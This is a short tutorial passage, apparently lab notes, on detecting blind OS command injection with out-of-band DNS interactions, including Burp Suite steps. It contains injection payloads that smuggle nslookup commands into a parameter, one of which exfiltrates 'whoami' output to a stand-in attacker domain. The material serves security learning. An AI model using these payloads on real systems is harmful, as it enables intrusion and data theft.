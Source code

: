 An attacker can use an injected command that will trigger an [out-of-band (OAST)](https://portswigger.net/burp/application-security-testing/oast) network interaction with a system that they control, using OAST techniques. For example:
```txt
& nslookup oast.web-attacker.com &
```
This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor their system to see if the lookup happens, confirming a command injection vulnerability.

To do this via Burp Suite Professional, follow these steps:
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to:
`email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
3. Right-click and select **Insert Collaborator payload** to insert a Burp Collaborator subdomain where indicated in the modified `email` parameter.
> Note: If Burp Collaborator is not available, we can use [CanaryTokens](https://canarytokens.org/generate#) and [interactsh](https://github.com/projectdiscovery/interactsh) as alternatives.


Another technique is using out-of-band channel to easily exfiltrate output from injected commands:
```txt
& nslookup `whoami`.oast.web-attacker.com &
```
This causes a DNS lookup to the attacker's domain containing the result of the `whoami` command:
```txt
wwwuser.kgji2ohoyw.web-attacker.com
```